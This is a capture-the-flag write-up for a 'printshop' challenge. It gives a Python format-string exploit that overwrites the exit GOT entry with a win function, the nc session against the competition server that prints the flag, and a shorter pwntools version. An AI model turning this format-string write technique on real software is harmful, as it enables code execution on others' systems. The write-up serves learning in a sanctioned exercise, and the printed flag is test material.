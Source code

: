 ```python
import sys
import struct

EXIT_GOT = 0x404060
WIN = 0x40129d


payload  = b''
payload += '%{}p'.format(str(WIN)).encode()
payload += b'%17$n'
payload += b'-' * ( 99 - len(payload) - 8 - 3 )
payload += struct.pack("Q", EXIT_GOT)
payload += b'\n'

sys.stdout.buffer.write(payload)
```

Run it against their server and wait for a little over 4 million characters to be printed until we get our flag

> I know there are more efficient ways than printing 4 million characters, but what matters is it works.

```console
$ python exploit.py | nc chal.pctf.competitivecyber.club 7997
Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!




...


                                                       0x7f3fed23b643--------------------------------------------------------------------------`@@PCTF{b4by_f0rm4t_wr1t3_6344792}
```

I'm not going to explain how I got to this solution because I myself would not recommend it. Instead use the pwntools method

> If you are still interested in this solution, checkout [this video](https://www.youtube.com/watch?v=_lO_rwaK_pY) 
{: .prompt-info}

#### pwntools

During the challenge I didn't know about this method, but I'm sharing it now because it is far better.

```python
from pwn import *

p = process('./printshop')
exe = ELF('./printshop')
context.binary = exe


p.sendline(fmtstr_payload(
    6,                          # Our input starts leaking from 6th argument
    {
        exe.got.exit :          # Where to write
        exe.symbols.win         # What to write
    }
))
```